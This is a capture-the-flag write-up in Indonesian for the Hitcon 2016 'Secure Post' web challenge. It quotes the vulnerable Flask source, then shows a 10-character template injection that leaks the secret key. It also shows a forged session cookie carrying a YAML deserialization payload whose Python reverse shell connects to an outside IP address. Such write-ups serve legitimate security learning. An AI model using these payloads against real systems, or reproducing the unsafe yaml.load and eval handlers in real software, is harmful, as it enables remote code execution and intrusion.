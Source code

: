 ```yaml
---
layout: post
title: "Hitcon 2016 : Secure Post"
description: "Hitcon 2016 : Secure Post"
headline: 
modified: 2016-10-10
category: Web Exploitation
tags: [Hitcon 2016]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Here is a service that you can store any posts. Can you hack it?
http://52.198.91.29/

### Solution : 

Di berikan web service dengan flask. dan kita bisa mengakses source code nya di `http://52.198.91.29/source`

```python

from flask import Flask
import config

# init app
app = Flask(__name__)
app.secret_key = config.flag1
accept_datatype = ['json', 'yaml']

from flask import Response
from flask import request, session
from flask import redirect, url_for, safe_join, abort
from flask import render_template_string

# load utils
def load_eval(data):
    return eval(data)

def load_pickle(data):
    import pickle
    return pickle.loads(data)

def load_json(data):
    import json
    return json.loads(data)

def load_yaml(data):
    import yaml
    return yaml.load(data)

# dump utils
def dump_eval(data):
    return repr(data)

def dump_pickle(data):
    import pickle
    return pickle.dumps(data)

def dump_json(data):
    import json
    return json.dumps(data)

def dump_yaml(data):
    import yaml
    return yaml.dump(data)


def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)

def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }

    datatype = session.get("post_type", config.default_datatype)
    data = session.get("post_data", config.default_data)

    if datatype not in handlers: abort(403)
    return handlers[datatype](data)

def store_posts(posts, datatype):
    handlers = {
        "eval": dump_eval,
        "pickle": dump_pickle,

        "json": dump_json,
        "yaml": dump_yaml
    }
    if datatype not in handlers: abort(403)
    data = handlers[datatype](posts)

    session["post_type"] = datatype
    session["post_data"] = data


@app.route('/')
def index():
    posts = load_posts()
    return render_template('index.html', posts = posts, accept_datatype = accept_datatype)

@app.route('/post', methods=['POST'])
def add_post():
    posts = load_posts()

    title = request.form.get('title', 'empty')
    content = request.form.get('content', 'empty')
    datatype = request.form.get('datatype', 'json')
    if datatype not in accept_datatype: abort(403)
    name = request.form.get('author', 'anonymous')[:10]

    from datetime import datetime
    posts.append({
        'title': title,
        'author': name,
        'content': content,
        'date': datetime.now().strftime("%B %d, %Y %X")
    })
    session["name"] = name
    store_posts(posts, datatype)
    return redirect(url_for('index'))

@app.route('/source')
def get_source():
    with open(__file__, "r") as f:
        resp = f.read()
    return Response(resp, mimetype="text/plain")

```


### Secure Post 

pada fungsi `add_post` terlihat bahwa author name yang kita input akan di simpan ke dalam session.
`session["name"] = name` dan pada fungsi `render_template` session kita di ambil 10 karakter pertamanya
`name = session.get('name', 'anonymous')[:10]`. kemungkinan kita bisa melakukan template string injection.

namun kita tidak bisa menggunakan payload yang lebih dari 10 karakter awalnya kita coba 
"\{\{config.items()\}\} " tapi tidak menghasilkan apa karena > 10 karakter. dan setelah beberapa lama akhirnya di temukan flag dengan "\{\{config\}\}"
pas 10 karakter.

```html
<p class="lead blog-description"><Config {'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_PATH': None, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': None, 'USE_X_SENDFILE': False, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_HTTPONLY': True, 'SERVER_NAME': None, 'APPLICATION_ROOT': None, 'DEBUG': False, 'JSON_AS_ASCII': True, 'TESTING': False, 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'JSON_SORT_KEYS': True, 'LOGGER_NAME': 'post_manager', 'PREFERRED_URL_SCHEME': 'http', 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}', 'TRAP_BAD_REQUEST_ERRORS': False}>
```

### Secure Post 2

ada 2 fungsi yang menarik `store_posts` dan `load_posts` awalnya saya kira `eval` dan `pickle` 
bisa di manfaatkan dalam hal ini untuk membantu melakukan RCE. tapi setelah di lihat lagi kodenya 
memiliki beberapa checking yang sangat strict terhadap `eval` dan `pickle` 

pengecekan di sini `accept_datatype = ['json', 'yaml']` dan `load_posts` di comments
dan beberapa handlers seperti ini `if datatype not in handlers: abort(403)`
sehingga kita mustahil untuk memanfaatkan itu.

ternyata `YAML` sifatnya pun sama dengan pickle ketika melakukan unserialize
tapi untuk melakukan injeksi kita tidak bisa langsung melakukan via `add_post`
kita injeksi langsung ke dalam session flask tersebut. di website nya juga ada 
pesan `Data is not stored in database`. jadi post kita di simpan di dalam session Flask

tapi flask itu melakukan signed sama cookie nya jadi kita ngak bisa 
langsung rubah. untuk itu saya simulasikan dengan `secret_key` yang sama
untuk generate cookie payload yang kita inginkan

```python

class Exploit(object):
 def __reduce__(self):
   fd = 1
   return (exec,
           ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("128.199.226.218",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);',))
   

# dump utils
@app.route('/')
def index():
    anu = yaml.dump(Exploit())
    serializer_interface = SecureCookieSessionInterface()
    serializer = serializer_interface.get_signing_serializer(app)
    out = serializer.dumps({
    "name": "shit",
    "post_data": "- "+anu,
    "post_type": "yaml"
})

    print(out)
    return render_template('index.html', out=out)

```

kemudian kita injeksikan session payload ke web tersebut. sebelumnya
kita nyalakan listening pada server kita misalnya port: 4444 seperti
dalam exploit di atas.

[![asciicast](https://asciinema.org/a/6khdwmh6c607znru18kahziij.png)](https://asciinema.org/a/6khdwmh6c607znru18kahziij)

Flag : `hitcon{unseriliaze_is_dangerous_but_RCE_is_fun!!}`
